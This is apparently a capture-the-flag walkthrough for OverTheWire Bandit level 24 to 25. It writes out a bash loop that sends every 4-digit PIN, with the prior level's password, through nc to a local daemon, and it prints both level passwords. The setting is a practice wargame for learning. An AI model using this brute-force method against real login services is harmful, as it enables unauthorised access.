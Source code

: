 # [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

## Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. 
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time.

## Theory
For this level we need to generate all possible 4-digit pincodes and pass to the daemon on port 30002.
This can be done by creating a bash script and implementing a for loop. The loop will go from `0000` to `9999` and in each iteration pass the pin to the daemon.

## Solution
1. First lets see how the daemon responds when we enter any random 4-digit pincode. Use the `nc` command to connect.
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
1927
Wrong! Please enter the correct current password and pincode. Try again.
```
2. So the daemon responds with a statement each time you enter a pincode. So, we need a file to write all the results in. This writing process can also be implemented in the script file.
NOTE: press ctrl+C to exit the daemon and return to cli.
3. Create a script like the following:
```
#!/bin/bash
for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> trail.txt
done
cat trail.txt | nc localhost 30002 > result.txt
```
4. First we create a file called `trail.txt` which contains the lines `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000` upto `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999`.
5. Then this file is given to `nc localhost 30002` and the result is copied in `result.txt`
6. Now that we have the result for all possible 4-digit pins from 0000 to 9999, we need to find the line which doesnt start with 'Wrong!'. Since this will contain the correct pin and so will return the password.
7. Use `sort` and then `grep` with `-v` flag to return everything execpt the lines with 'Wrong!'.
```
bandit24@bandit:/tmp/tmp.eHVsAsdAaV$ sort result.txt | grep -v "Wrong!"

Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
